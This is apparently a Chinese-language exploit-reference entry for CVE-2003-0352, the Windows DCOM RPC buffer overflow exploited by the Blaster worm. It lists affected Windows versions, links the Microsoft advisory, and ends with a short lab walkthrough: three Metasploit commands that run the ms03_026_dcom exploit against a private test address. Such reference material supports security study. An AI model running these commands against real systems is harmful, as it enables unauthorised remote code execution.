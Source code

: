 ###  CVE-2003-0352

#### 描述

Buffer overflow in a certain DCOM interface for RPC in Microsoft Windows NT 4.0, 2000, XP, and Server 2003 allows remote attackers to execute arbitrary code via a malformed message, as exploited by the Blaster/MSblast/LovSAN and Nachi/Welchia worms.

#### 影响版本

| Product             | Version           | Update | Edition           | Tested |
| ------------------- | ----------------- | ------ | ----------------- | ------ |
| Windows 2000        |                   |        |                   |        |
| Windows 2000        |                   | SP1    |                   |        |
| Windows 2000        |                   | SP2    |                   |        |
| Windows 2000        |                   | SP3    |                   |        |
| Windows 2000        |                   | SP4    |                   |        |
| Windows 2003 Server | R2                |        | 64-bit            |        |
| Windows 2003 Server | R2                |        | Datacenter 64-bit |        |
| Windows 2003 Server | WEB               |        |                   |        |
| Windows 2003 Server | Enterprise        |        | 64-bit            |        |
| Windows 2003 Server | Enterprise 64-bit |        |                   |        |
| Windows 2003 Server | Standard          |        | 64-bit            |        |
| Windows Nt          | 4.0               | SP1    | Server            |        |
| Windows Nt          | 4.0               | SP5    | Server            |        |
| Windows Nt          | 4.0               | SP4    | Enterprise Server |        |
| Windows Nt          | 4.0               |        | Enterprise Server |        |
| Windows Nt          | 4.0               | SP6    | Workstation       |        |
| Windows Nt          | 4.0               | SP2    | Workstation       |        |
| Windows Nt          | 4.0               | SP1    | Terminal Server   |        |
| Windows Nt          | 4.0               | SP5    | Terminal Server   |        |
| Windows Nt          | 4.0               | SP4    | Server            |        |
| Windows Nt          | 4.0               |        | Server            |        |
| Windows Nt          | 4.0               | Sp6a   | Enterprise Server |        |
| Windows Nt          | 4.0               | SP3    | Enterprise Server |        |
| Windows Nt          | 4.0               | SP5    | Workstation       |        |
| Windows Nt          | 4.0               | SP1    | Workstation       |        |
| Windows Nt          | 4.0               | SP4    | Terminal Server   |        |
| Windows Nt          | 4.0               |        | Terminal Server   |        |
| Windows Nt          | 4.0               | Sp6a   | Server            |        |
| Windows Nt          | 4.0               | SP3    | Server            |        |
| Windows Nt          | 4.0               | SP6    | Enterprise Server |        |
| Windows Nt          | 4.0               | SP2    | Enterprise Server |        |
| Windows Nt          | 4.0               | SP4    | Workstation       |        |
| Windows Nt          | 4.0               |        | Workstation       |        |
| Windows Nt          | 4.0               | Sp6a   | Terminal Server   |        |
| Windows Nt          | 4.0               | SP3    | Terminal Server   |        |
| Windows Nt          | 4.0               | SP6    | Server            |        |
| Windows Nt          | 4.0               | SP2    | Server            |        |
| Windows Nt          | 4.0               | SP1    | Enterprise Server |        |
| Windows Nt          | 4.0               | SP5    | Enterprise Server |        |
| Windows Nt          | 4.0               | Sp6a   | Workstation       |        |
| Windows Nt          | 4.0               | SP3    | Workstation       |        |
| Windows Nt          | 4.0               | SP6    | Terminal Server   |        |
| Windows Nt          | 4.0               | SP2    | Terminal Server   |        |
| Windows Xp          |                   |        | 64-bit            |        |
| Windows Xp          |                   |        | Home              |        |
| Windows Xp          |                   | Gold   | Professional      |        |
| Windows Xp          |                   | SP1    | 64-bit            |        |
| Windows Xp          |                   | SP1    | Home              |        |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2003-0352
```

#### 利用方式

测试系统windows 2000 sp4 x86

```
use exploit/windows/dcerpc/ms03_026_dcom
set RHOST 192.168.1.17
run
```

![image-20200823200752021](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2003-0352_win2000_x86_msf.png?raw=true)

查看系统信息

